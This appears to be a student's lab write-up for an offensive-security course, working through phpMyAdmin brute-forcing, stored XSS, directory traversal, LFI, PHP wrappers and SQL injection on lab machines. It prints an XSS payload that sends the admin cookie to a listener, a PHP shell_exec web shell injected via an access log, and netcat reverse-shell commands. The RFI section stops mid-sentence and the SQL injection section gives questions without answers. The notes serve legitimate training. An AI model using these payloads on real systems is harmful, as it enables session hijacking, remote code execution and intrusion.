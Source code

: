# 9.5.2. Practice - Exploiting Admin Consoles
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

- We spot a phpmyadmin login portal located at the following URL `http://192.168.231.10/phpmyadmin/`
- In order to brute-force the login we must first capture the request in Burp Suite
![[burp_capture.png]]
- we then must set the correct payload variables and set the attack type to "Pitchforkl"
- Finally, we setup the payloads via the "Grep Extract" section in Intruder, capturing the response 
- Once these steps are complete we can brute force the password 


2.  Insert a new user into the "users" table.
- Once logged in, creating a user is fairly simple. Start with navigating to the "User Accounts" tab
- Click the "Create New User" button


# 9.6.6 Practice - XSS
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.
- First must craft an XSS that was successfully steal the cookie of an administrator. We will setup a listener on port 80 and use the following snippet:
- `<script>new Image().src="http://IP.ADDRESS/cool.jpg?output="+document.cookie;</script>`
-  We then input this into the "Comments" section of the web form.
- To test the validity of the XSS we then run the powershell script on the Windows machine
- We can see that the cookie was set to our listener, enabling us to adjust our cookie and hijack the admin's session

2.  Consider what other ways an XSS vulnerability in this application might be used for attacks.
	As this is a stored XSS there are numerous possible ways to exploit this XSS which would have severe implications on the server and its user's.

3.  Does this exploit attack the server or clients of the site?
As this is a stored XSS the server is on the recieving end. That being said, any user who visits the page is suseptable to attack.

# 9.7.2 Directory Traversal Vulnerabilities

## Practice - Directory Traversal Vulnerabilities

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

This exploit only requires us to visit the following url:
`http://192.168.231.10/menu.php?file=current_menu.php`

From there we can edit the field after `menu.php?file=` to any file we wish to read, for example:
`http://192.168.231.10/menu.php?file=c:\windows\system32\drivers\etc\hosts`

# 9.8.5 LFI Code Execution

#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Obtain code execution through the use of the LFI attack.
- First, we make a malicious request to the server, injecting a PHP function that will execute the OS command
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
(note the `<pre>` tag meaning the line will be saved in its preformatted state, ignore breaks and spaces)
- We then simply navigate to the vulnerable URL and call our newly injected function
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

2.  Use the code execution to obtain a full shell.
We can simply alter our URL to execute the following command:
`nc -e cmd.exe 192.168.119.231 9001`
the full URL would resemble the following:
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20-e%20cmd.exe%20192.168.119.231%209001`


# 9.8.7 Remote File Inclusion (RFI)

## Practice - Remote File Inclusion (RFI)

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the RFI vulnerability in the web application and get a shell.
2.  Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.
3.  Use one of the webshells i


# 9.8.10 PHP wrappers
## Practice - PHP Wrappers

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the LFI vulnerability using a PHP wrapper.
We simply append the php wrapper `file=data:text/plain,hello world` to the end of our url:
`http://192.168.231.10/menu.php?file=data:text/plain,hello%20world`

2.  Use a PHP wrapper to get a shell on your Windows 10 lab machine.
For this we replace the "hello world" at the end of our previous URL with a php script designed to execute code, we also place a reverse shell as our payload for the shell_exec to execute.
`<?php echo shell_exec("nc -e cmd.exe 192.168.119.231 9001") ?>`


# 9.9.4 SQL Injection - Authentication Bypass
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.

2.  SQL inject the username field to bypass the login process.

3.  Why is the username displayed like it is in the web application once the authentication process is bypassed?

4.  Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?